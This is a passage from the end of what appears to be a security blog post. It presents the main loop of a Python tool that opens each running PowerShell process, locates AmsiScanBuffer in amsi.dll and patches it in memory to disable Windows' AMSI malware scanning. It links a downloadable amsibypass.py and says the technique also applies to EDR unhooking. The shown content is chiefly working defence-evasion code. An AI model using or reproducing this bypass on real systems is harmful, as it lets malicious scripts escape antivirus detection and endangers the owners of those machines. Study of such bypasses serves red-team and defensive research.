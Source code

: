 ```python


for pid in getPowershellPids():
    process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, pid)
    if not process_handle:
        continue
    print(f'[+] Got process handle of powershell at {pid}: {hex(process_handle)}')
    print(f'[+] Trying to find AmsiScanBuffer in {pid} process memory...')
    amsiDllBaseAddress = getAmsiDllBaseAddress(process_handle, pid)
    if not amsiDllBaseAddress:
        print(f'[-] Error finding amsiDllBaseAddress in {pid}.')
        print(f'[-] Error: {KERNEL32.GetLastError()}')
        sys.exit(1)
    else:
        print(f'[+] Trying to patch AmsiScanBuffer found at {hex(amsiDllBaseAddress)}')
        if not patchAmsiScanBuffer(process_handle, amsiDllBaseAddress):
            print(f'[-] Error patching AmsiScanBuffer in {pid}.')
            print(f'[-] Error: {KERNEL32.GetLastError()}')
            sys.exit(1)
        else:
            print(f'[+] Success patching AmsiScanBuffer in PID {pid}')
    KERNEL32.CloseHandle(process_handle)
    print('')
```

You can also download it from [here](./amsibypass.py).

## Conclusion

I hope you liked the journey of creating this tool.
This technique can be used in other evasion tasks,
such as EDR API unhooking.

PowerShell weaponization is not death.
As you can see,
AMSI can be easily bypassed
using entirely different,
often unbelievable ways.
